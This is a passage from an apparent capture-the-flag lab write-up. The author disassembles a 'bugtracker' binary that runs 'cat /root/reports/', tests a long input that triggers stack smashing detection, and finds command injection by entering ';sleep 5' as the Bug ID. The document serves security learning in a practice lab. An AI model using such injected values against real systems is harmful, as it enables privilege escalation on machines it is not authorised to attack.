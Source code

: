 ```
    │ ; 0xb9a                                                                          │                                                                                               
    │ ; "cat /root/reports/"                                                           │                                                                                               
    │ lea rdi, str.cat__root_reports_                                                  │                                                                                               
```

Specifically "cat /root/reports/".

If I could cause a buffer overflow, I could perhaps cause this program to execute arbitrary commands...

Let me try spam...

```
robert@oopsie:/usr/bin$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: pppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
pppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
---------------

cat: /root/reports/pppppppppppppppppppppppppppppppppppppppppppppppppppppppppp: No such file or directory

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

Well...I can just inject commands! Great!

```
robert@oopsie:/usr/bin$ ^[[A
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ;sleep 5
;sleep 5
---------------

cat: /root/reports/: Is a directory
sleep: missing operand
Try 'sleep --help' for more information.

robert@oopsie:/usr/bin$ 
```
